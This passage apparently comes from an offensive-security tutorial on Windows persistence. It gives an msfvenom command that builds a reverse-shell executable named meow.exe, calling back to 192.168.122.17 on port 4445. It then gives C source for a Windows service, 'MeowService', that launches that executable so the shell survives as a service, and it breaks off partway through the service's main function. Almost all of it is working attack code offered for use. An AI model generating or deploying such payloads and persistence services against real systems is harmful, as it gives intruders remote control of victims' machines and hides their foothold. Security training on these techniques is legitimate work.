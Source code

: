 ### Reverse Shell 

```bash 
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.122.17 LPORT=4445 -f exe > meow.exe
```

### Service that execute our meow.exe 

Minimum prerequisites :
- main entry point, similar to any programs
- concept of service entry point 
- service control handler 

```c 
#include <windows.h>
#include <stdio.h>

#define SLEEP_TIME 5000

SERVICE_STATUS serviceStatus;
SERVICE_STATUS_HANDLE hStatus;

void ServiceMain(int argc, char** argv);
void ControlHandler(DWORD request);

// run process meow.exe - reverse shell
int RunMeow() {
  void * lb;
  BOOL rv;
  HANDLE th;

  // for example: msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
  char cmd[] = "Z:\\packtpub\\chapter03\\04-exploring-windows-services-for-persistence\\meow.exe";
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));
  CreateProcess(NULL, cmd, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
  WaitForSingleObject(pi.hProcess, INFINITE);
  CloseHandle(pi.hProcess);
  return 0;
}

int main() {
  SERVICE_TABLE_ENTRY ServiceTable[] = {
    {"MeowService", (LPSERVICE_MAIN_FUNCTION) ServiceMain},
    {NULL, NULL}
  };

  StartServiceCtrlDispatcher(ServiceTable);
  return 0;
}

void ServiceMain(int argc, char** argv) {
  serviceStatus.dwServiceType        = SERVICE_WIN32;
  serviceStatus.dwCurrentState       = SERVICE_START_PENDING;
  serviceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
  serviceStatus.dwWin32ExitCode      = 0;
  serviceStatus.dwServiceSpecificExitCode = 0;
  serviceStatus.dwCheckPoint         = 0;
  serviceStatus.dwWaitHint           = 0;

  hStatus = RegisterServiceCtrlHandler("MeowService", (LPHANDLER_FUNCTION)ControlHandler);
```